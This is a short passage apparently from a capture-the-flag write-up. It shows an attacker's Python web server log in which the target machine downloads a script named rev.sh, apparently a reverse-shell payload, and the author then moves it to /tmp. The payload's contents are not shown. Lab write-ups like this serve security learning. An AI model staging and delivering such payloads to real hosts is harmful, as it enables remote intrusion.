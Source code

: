 It works:



    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.230 - - [27/Feb/2024 11:05:08] "GET /rev.sh HTTP/1.1" 200 -



But there's an error in the response:

![](/img/image-20240227110642749.png)

If I move to `/tmp/rev.sh`, it seems to work:
